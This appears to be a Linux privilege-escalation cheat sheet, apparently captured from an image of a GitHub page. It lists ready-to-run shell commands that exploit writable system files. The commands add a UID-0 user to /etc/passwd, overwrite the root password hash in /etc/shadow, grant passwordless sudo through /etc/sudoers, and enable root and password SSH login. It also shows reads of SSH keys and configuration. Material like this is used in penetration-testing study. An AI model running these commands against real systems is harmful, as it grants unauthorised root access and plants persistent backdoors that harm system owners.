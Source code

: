 #### Important Configuration Files
- **Check permissions of passwd file:**
	```bash
	ls -la /etc/passwd
	```
- **Check permissions of shadow file:**
	```bash
	ls -la /etc/shadow
	```

#### Writable `/etc/passwd`
- **Add a New Root User by Modifying `/etc/passwd`:**
	```bash
	echo 'newuser:x:0:0::/root:/bin/bash' >> /etc/passwd
	su newuser
	```

#### Writable `/etc/shadow`
- **Generate a new password hash:**
    ```bash
    openssl passwd -1 -salt root newpassword
    ```
- **Replace the root hash in `/etc/shadow` with the new hash:**
    ```bash
    sed -i 's|root:.*|root:<new_hash>:18030:0:99999:7:::|' /etc/shadow
    ```

#### Writable `/etc/sudoers`
- **Grant sudo Privileges to a User:**
	```bash
	echo 'username ALL=(ALL) NOPASSWD: ALL' >> /etc/sudoers
	```

#### Writable `/sshd_config`
- **Enable Root Long:**
```bash
 echo "PermitRootLogin yes" >> /etc/ssh/sshd_config
 service ssh restart
```
- **Enable Password-base Authentication:**
```bash
echo "PasswordAuthentication yes" >> /etc/ssh/sshd_config
service ssh restart
```

# Configuration Files and Sensitive Information

#### SSH Keys and Configurations
- **Lists authorized SSH keys for the current user:**
	```bash
	cat ~/.ssh/authorized_keys
	```
- **Displays SSH daemon configuration:**
	```bash
	cat /etc/ssh/sshd_config
	```
